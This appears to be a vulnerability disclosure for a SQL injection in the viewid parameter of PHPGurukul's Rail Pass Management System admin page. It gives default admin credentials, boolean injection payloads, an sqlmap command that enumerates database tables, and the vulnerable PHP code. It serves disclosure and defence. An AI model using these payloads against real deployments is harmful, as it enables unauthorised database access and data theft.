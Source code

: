 # [Rail Pass Management System-SQL Injection-view-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]: ** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]: ** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/view-pass-detail.php?viewid=1`    

**[Vulnerability Location]:** /rpms/admin/view-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192806.png)

2. When you enter `1%20and%201=2` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192829.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/view-pass-detail.php?viewid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427165849.png)

**[code analysis]:**

/rpms/admin/view-pass-detail.php

```php
$vid=$_GET['viewid'];
$sql="SELECT * from  tblpass where ID=$vid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `viewid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.